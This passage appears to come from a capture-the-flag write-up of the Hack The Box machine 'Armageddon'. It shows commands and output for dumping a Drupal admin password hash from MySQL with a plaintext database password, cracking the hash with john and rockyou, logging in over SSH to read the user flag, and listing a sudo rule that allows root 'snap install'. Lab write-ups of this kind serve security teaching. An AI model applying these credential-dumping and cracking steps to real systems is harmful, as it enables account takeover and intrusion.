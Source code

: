 Let's try to look at `users` table:
```console
bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select * from users"
uid	name	pass	mail	theme	signature	signature_format	created	access	login	status	timezone	language	picture	init	data
0						NULL	0	0	0	0	NULL		0		NULL
1	brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu			filtered_html	1606998756	1607077194	1607076276	1Europe/London		0	admin@armageddon.eu	a:1:{s:7:"overlay";i:1;}

```

We have found the hashed password of the user `brucetherealadmin` in the `users` table of the `drupal` database, which is `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`.
One way to attempt to crack this password is by using a `john` and a wordlist [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt):

```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $john --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:00 DONE (2021-03-31 23:08) 3.333g/s 800.0p/s 800.0c/s 800.0C/s tiffany..chris
Use the "--show" option to display all of the cracked passwords reliably
Session completed
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $john --show hash
?:booboo
```

We discovered the password for the user `brucetherealadmin:booboo`. Let's attempt to log in using `ssh`:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $ ssh brucetherealadmin@10.10.10.233
brucetherealadmin@10.10.10.233's password: 
Last failed login: Wed Mar 31 20:53:09 BST 2021 from 10.10.14.23 on ssh:notty
There were 471 failed login attempts since the last successful login.
Last login: Wed Mar 31 18:16:56 2021 from 10.10.14.8
[brucetherealadmin@armageddon ~]$ cat user.txt 
29050209113229d46a79ccacb1c9e479
[brucetherealadmin@armageddon ~]$
```

And we get the user flag ```29050209113229d46a79ccacb1c9e479```.

### Root

By executing the command `sudo -l`, we discovered the following information:
```console
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2
    QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
[brucetherealadmin@armageddon ~]$
```
